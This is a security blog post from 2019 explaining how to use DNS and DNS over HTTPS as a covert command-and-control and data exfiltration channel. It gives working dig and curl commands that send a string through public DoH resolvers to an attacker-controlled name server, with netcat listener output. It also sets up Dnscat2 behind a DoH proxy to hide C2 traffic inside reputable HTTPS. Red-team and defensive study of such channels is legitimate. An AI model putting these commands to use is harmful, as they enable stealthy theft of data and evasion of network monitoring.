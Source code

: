 ```yaml
---
layout: default
---
```


_**Aug 26, 2019**_

## Exfiltrate Like a Pro: Using DNS over HTTPS as a C2 Channel

[DNS over HTTPS](https://en.wikipedia.org/wiki/DNS_over_HTTPS) is cool. It aims to increase user privacy and security by moving [Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System) resolution from the old, unauthenticated UDP protocol to [HTTPS](https://en.wikipedia.org/wiki/HTTPS) and [HTTP/2](https://en.wikipedia.org/wiki/HTTP/2) 😇.. but are you aware that it can be used as a C2 communication channel? 😼

![Dashboard](../assets/images/doh-proxy-dashboard.png "Dashboard")

## Domain Name System

The [Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System) is commonly used to translate a string representing a domain name to one or more IPv4/IPv6 addresses. It uses port UDP/53 for communication and there are different kinds of Resource Records that you can request:

|  Type |  Name  |  Data |
|---|---|---|
| A  | IPv4 Address Mapping  |  hostname and its corresponding IPv4 address |
| AAAA | IPv6 Address Mapping  | hostname and its corresponding IPv6 address  |
| CNAME  | Canonical Name  |  alias to another hostname |
| MX  | Mail Exchanger  | SMTP email server for the domain  |
| NS  | Name Server  |  Authoritative Name Server for a DNS Zone  |
| PTR  | Reverse Lookup Pointer  |  reverse mapping between IPs and hostnames |
| CERT  | Certificate Record  |  encryption certificates, such as PKIX, SPKI, PGP, etc |
| SRV  | Service Location  |  service locations for other protocols |
| TXT  | Text Record  | arbitrary text and SPF, DKIM, DMARC, etc   |
| SOA  | Start of Authority  | Authoritative Name Server for the current DNS zone  |

## DNS as C2 Channel

If we set up a NS record for `exfil.iwantmore.pizza` pointing to an IP that we control and we try to resolve a subdomain like this:

```bash
dig 1234567890.exfil.iwantmore.pizza
```

we will receive the DNS request on port UDP/53:

```text
root@kali:~$ nc -lvvup 53
listening on [any] 53 ...
<REDACTED>: inverse host lookup failed: Host name lookup failure
connect to [<REDACTED>] from (UNKNOWN) [<REDACTED>] 60598
#�
1234567890exfiliwantmorepizza)�
```

As we can see, we just exfiltrated the string `1234567890` via DNS to our server using port UDP/53.

If you want to tunnel a full-duplex stream instead of exfiltrating a single string, you will need to define your own TCP-like layer on top of the UDP+DNS protocol, in order to manage the following problems:

1. Reordering of received packets

2. Deduplication of received packets

3. Retransmission of lost packets

You can find an open source [protocol specification](https://github.com/iagox86/dnscat2/blob/master/doc/protocol.md) at the Dnscat2 repository.

## DNS over HTTPS as C2 Channel

We can try it out by issuing a manual request to any DoH public servers using the [official online tool](https://dns.google/query?name=iwantmore.pizza) or locally with cURL, as shown below.

- Cloudflare:

```bash
curl -H 'Accept: application/dns-json' \
     'https://1.1.1.1/dns-query?name=iwantmore.pizza&type=CNAME'
```

- Google:

```bash
curl -H 'Accept: application/dns-json' \
     -H 'Host: dns.google' \
     'https://8.8.8.8/resolve?name=iwantmore.pizza&type=CNAME'
```

- Quad9:

```bash
curl -H 'accept: application/dns-json' \
     'https://9.9.9.9:5053/dns-query?name=iwantmore.pizza&type=CNAME'
```

In all cases, we will receive a JSON response similar to this one:

```json
{
    "Status": 0,
    "TC": false,
    "RD": true,
    "RA": true,
    "AD": false,
    "CD": false,
    "Question": [{
        "name": "iwantmore.pizza.",
        "type": 5
    }],
    "Answer": [{
        "name": "iwantmore.pizza.",
        "type": 5,
        "TTL": 1794,
        "data": "phra.github.io."
    }]
}
```

To replicate the previous example and exfiltrate the `1234567890` string we simply issue the following command:

```bash
curl -H 'Accept: application/dns-json' \
     -H 'Host: dns.google' \
     'https://8.8.8.8/resolve?name=1234567890.iwantmore.pizza&type=A'
```

and we end up with the same result on the server:

```text
root@kali:~$ nc -lvvup 53
listening on [any] 53 ...
<REDACTED>: inverse host lookup failed: Host name lookup failure
connect to [<REDACTED>] from (UNKNOWN) [<REDACTED>] 61832
#�
1234567890exfiliwantmorepizza)�
```

## Dnscat2 over DoH

To quickly confirm that DNS over HTTPS can be really used as a C2 channel, we can configure a DoH proxy and connect the Dnscat2 client to it. In this way we will use the original Dnscat2 client and the proxy will translate the DNS requests to DoH for us. If everything works, only HTTPS traffic to some DoH servers will be seen on the wire. Of course, in a real scenario, the agent itself should contact the public DoH servers directly.

We will choose as our DoH proxy [Technitium DNS Server](https://github.com/TechnitiumSoftware/DnsServer), an open source .NET Core implementation.

On our test machine we will install the .NET Runtime

```bash
wget -qO- https://packages.microsoft.com/keys/microsoft.asc | gpg --dearmor > /etc/apt/trusted.gpg.d/microsoft.asc.gpg
wget -qO /etc/apt/sources.list.d/microsoft-prod.list https://packages.microsoft.com/config/debian/9/prod.list

apt install apt-transport-https
apt update
apt install install aspnetcore-runtime-2.2
```

and execute the Technitium DNS Server:

```bash
wget https://download.technitium.com/dns/DnsServerPortable.tar.gz
tar xvf DnsServerPortable.tar.gz
dotnet DnsServerApp.dll
```

We can access the dashboard on [http://127.0.0.1:5380](http://127.0.0.1:5380).
Let's configure our DNS proxy to forward all received requests to an upstream DoH server, in this case we are choosing the Google one (i.e. `8.8.8.8`, `8.8.4.4`, ...)

![DoH proxy configuration](../assets/images/doh-proxy-conf.png "DoH proxy configuration")

Now that everything is set up, we can confirm that it is working as expected: let's run the Dnscat2 server on our Authoritative Name Server and start the client on our test machine after changing `/etc/resolv.conf` to use `127.0.0.1` as DNS server, so that our traffic will pass through the DoH proxy.

![Dnscat2 over DoH](../assets/images/dnscat2-over-doh.png "Dnscat2 over DoH")

**🤖 Yay, it works! 🤖**

## Results

We successfully set up a reverse DNS over HTTPS C2 channel with HTTP/2, High Reputation Domain Fronting and A-grade TLS!

- [HTTP/2](https://http2.pro/check?url=https%3A//dns.google/)  

![HTTP/2 Support](../assets/images/http2.png "HTTP/2 Support")

- [High Reputation Domain Fronting](https://www.talosintelligence.com/reputation_center/lookup?search=8.8.8.8)  

![IP Reputation](../assets/images/ip-reputation.png "IP Reputation")

- [A-grade TLS](https://www.ssllabs.com/ssltest/analyze.html?d=dns.google&latest)  

![SSL Grade](../assets/images/ssl-grade.png "SSL Grade")

At the time of writing, no open source C2 agent/implant implement this exfiltration technique yet, but, as shown, it could be an effective and hard to detect method to indirectly communicate with a C2 server. It will be a neat feature to have and I am curious to see if it's going to be implemented as a communication option for some major products out there.

## References

1. [Dnscat2](https://github.com/iagox86/dnscat2)
2. [Technitium Dns Server](https://github.com/TechnitiumSoftware/DnsServer)

[back](../)
